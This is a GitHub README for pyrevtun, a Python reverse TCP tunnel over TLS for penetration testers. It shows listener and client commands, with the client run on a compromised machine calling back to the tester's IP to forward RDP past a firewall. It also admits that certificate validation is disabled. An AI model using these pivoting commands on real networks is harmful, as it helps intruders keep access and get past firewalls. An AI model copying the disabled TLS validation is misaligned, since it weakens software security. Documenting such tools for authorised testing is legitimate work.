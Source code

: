 # pyrevtun
## NOTES
This is a fork to upgrade to Python 3. I did the bare minimum to make it work, I didn't clean it up so use caution. I also _definitely_ bypassed SSL best practices and disabled all cert validation on the client so...be careful

Description
===========
A pure Python reverse tunnel/reverse port forward utility (prototype) to forward TCP protocols over SSL/TLS.  This tool is designed for penetration testers and security enthusiasts.

Inspiration
===========
- Firecat: http://www.bishopfox.com/resources/tools/other-free-tools/firecat/
- Powercat: https://github.com/besimorhino/powercat/
- Socket "recvall" function: http://code.activestate.com/recipes/213239-recvall-corollary-to-socketsendall/

Requirements
============
- ~~Python 2.7.x~~ Python 3
- X509 PEM public/private key (unprotected)
- A password of your choice

Tool Usage
==========
1) On the penetration tester's local machine, setup pyrevtun in listener mode:

- python pyrevtun.py -m listener -l [IP:port] -t [local tunnel port] -s [certificate file] -k [private key file] -p [auth password]
- e.g. python pyrevtun.py -m listener -l 192.168.1.59:443 -t 33389 -s example_cert.pem -k example_key.pem -p pass

2) On compromised machine, setup pyrevtun in client mode:

- python pyrevtun.py -m client -l [listener IP:port] -c [target IP:port] -p [auth password]
- e.g. python pyrevtun.py -m client -l 192.168.102.59:443 -c 10.5.5.5:3389 -p pass
- This connection will open up the chosen local port on the pen test machine.

3) Using TCP app (i.e. RDP, SSH client), connect to specified local port as [localhost:local tunnel port] 
- e.g. localhost:33389

*To prevent lockup, run in the background (&)

A practical Scenario
====================

1] [Pen Test Machine] <----rev conn---- [Firewall] <------- [Compromised Machine]    ?    [Destination Machine]

- In this example, the penetration tester has compromised an internal network machine and has initiated a reverse connection (client mode) with pyrevtun back the the attack machine (listening mode).  The local port opens on the attack machine.

2) [Pen Test Machine] ----tunnel conn----> [Firewall] -------> [Compromised Machine] --------> [Destination Machine]

- The penetration tester connects to the the local port on the pen test machine (e.g. RDP).  RDP is forwarded over the reverse connection to the destination machine through the firewall and compromised machine.

Bugs/Issues
===========
- Socket shutdown/closure is not always graceful (may need to kill the process manually).
- Protocols like RDP (NLA auth) can be finicky.  If it doesn't work the first time, try it again.

Tool Usage & Ethics
===================
This tool was designed to help security professionals perform ethical and legal vulnerability assessments and penetration tests.  Do not use for nefarious purposes.

Also, I "program" for functionality, not necessarily final completion.  I am striving the for latter a little more each day...so if you find any major problems, let me know.
